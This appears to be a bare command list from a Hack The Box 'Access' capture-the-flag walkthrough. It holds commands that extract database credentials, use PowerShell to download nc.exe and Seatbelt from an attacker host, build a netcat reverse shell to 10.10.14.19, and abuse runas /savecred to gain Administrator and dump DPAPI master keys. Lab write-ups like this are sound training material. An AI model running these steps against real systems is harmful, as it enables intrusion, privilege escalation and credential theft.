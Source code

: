```
mdb-tables -1  backup.mdb | grep user

mdb-export backup.mdb auth_user 

7z x -p'access4u@security' ac.zip 

cat  Access\ Control.mbox

telnet access.htb 
security
password

net users
net user administrator

cd Desktop

powershell -c "$client = New-Object Net.WebClient; $client.DownloadFile('http://10.10.14.19:8000/nc.exe', 'nc.exe')"

echo c:\Users\security\Desktop\nc.exe 10.10.14.19 6789 -e cmd.exe > reverse.bat

#Runas can be exploited if net user Administrator have "No Password Required Option" enabled

C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\security\Desktop\reverse.bat" 

powershell -c "$client = New-Object Net.WebClient; $client.DownloadFile('http://10.10.14.19:8000/SeatbeltNet3.5AnyCPU.exe', 'sb.exe')"

sb.exe MasterKeys
sb.exe user

```
https://github.com/carlospolop/winPE/blob/master/binaries/seatbelt/SeatbeltNet3.5AnyCPU.exe
https://blog.harmj0y.net/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/
https://www.hackthebox.com/achievement/machine/336799/156
